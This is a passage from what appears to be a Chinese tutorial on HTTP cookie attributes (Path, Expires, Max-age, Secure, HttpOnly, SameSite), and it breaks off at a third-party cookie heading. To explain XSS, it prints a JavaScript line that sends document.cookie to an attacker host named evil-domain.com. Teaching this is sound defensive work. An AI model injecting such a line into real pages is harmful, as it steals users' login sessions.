 **`Path` 的默认值是当前的路径。**  

一般而言来说，认证用途的 cookie 会设成  `path=/`，让全站都可以存取此 cookie，如此一来不管在网站的哪个路径下，server 都能认得用户的身份。  

##### Expires, Max-age

`expires`，  `max-age` 参数的作用是设定cookie的有效期限。  

**如果没有额外设置  `expires` 或是  `max-age` 参数，当浏览器关闭之后，储存在浏览器的 cookie 便会消失，这就是所谓的 session cookie** 。  

如果我们希望浏览器关掉之后 cookie 还是会被保存下来，那就必须设置  `expires` 或是  `max-age`。 

`expires` 是 UTC 格式表示的有效期限，在 JavaScript 中可用  `date.toUTCString()` 取得： 

```plaintext
cookie=value; expires=Tue, 19 Jan 2038 03:14:07 GMT
```

`max-age` 表示从设定开始算之后几秒之内 cookie 是有效的： 

```plaintext
cookie=value; max-age=3600
```

##### Secure

`Secure` 参数的作用是让 cookie 只能通过 https 传递。  **Cookie 默认是不区分 http 或是 https 的。**  

换句话说，当我们设定  [http://example.com ](http://example.com) 的 cookie 时， [https://example.com ](https://example.com) 也能看得到同样的 cookie。  

如果 cookie 设了  `secure` 参数，只有通过 https 访问这个网站才能访问这个 cookie; 透过 http 存取这个网站会看不到这个 cookie。  

这个参数的作用在于保护 cookie 只能在 https 传递。 话虽如此，我们还是不能将敏感信息储存在 cookie 中。  

##### Httponly 

`HttpOnly` 参数的作用是防止 JavaScript 访问 cookie。  

当一个 cookie 设置了  `httpOnly` 的属性之后，JavaScript 就不能存取这个 cookie，但是浏览器在发送 request 的时候还是会帮你带在 request header 里面。  

这个参数的设计是为了安全性考量，因为如果 JavaScript 能够访问这个 cookie 就有受到 XSS Attack （Cross-Site Scripting，跨站脚本攻击） 的风险。  

什么是 XSS Attack （跨站脚本攻击） 呢？  简单的说，就是将一段恶意的 JavaScript 代码通过表单等方式上传到 server，之后这份表单数据在前端呈现的时候恶意的  JavaScript 代码会被当成是 HTML 的一部分被执行。 假设黑客能够执行 JavaScript，便能很轻易地访问  `document.cookie`，就能够窃取你用来登入的 cookie，并且用你的身份做恶意的操作： 

```javascript
// 把你的 cookie 送到黑客的服务器
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

这就是为什么我们需要禁止 JavaScript 访问 cookie。  

#### Samesite

`Samesite` 的作用是防止 cookie 以跨站方式传送，可以帮助避免 CSRF （Cross-Site Request Forgery，跨站请求伪造） 攻击。 由于篇幅有限，如果希望进一步了解CSRF，[这里](https://tech.meituan.com/2018/10/11/fe-security-csrf.html)是一篇很好的介绍CSRF的文章。同时SameSite也可以对第三方Cookie的使用进行一些限制，如下面所述。

#### 第三方cookie
